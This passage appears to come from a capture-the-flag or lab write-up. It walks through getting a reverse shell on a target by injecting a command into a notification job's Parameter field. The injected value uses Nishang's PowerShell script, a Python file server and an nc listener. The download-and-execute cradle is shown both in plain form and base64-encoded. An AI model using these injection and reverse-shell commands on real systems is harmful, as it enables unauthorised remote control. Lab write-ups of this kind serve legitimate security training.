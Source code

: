 Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Then going back to the test notification job we created, change the _Parameter_ field to the following string.

```text
bla | iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')
```

Click on the test object and send the test notification. We see that it downloaded the reverse shell, however, it didn’t give us a shell back. This could be because the application is not properly interpreting the characters in the command. So instead, let’s base64 encode it.

```text
echo "iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')" | iconv -t UTF-16LE | base64 -w0
```

We get back the following base64 encoded command.

```text
aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcAOgA1ADUANQA1AC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA
```

Change the _Paramater_ field to the following string.

```text
bla | powershell -encodedCommand aQBlAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAHMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADcAOgA1ADUANQA1AC8AcwBoAGUAbABsAC4AcABzADEAJwApAAoA
```

We get a shell!
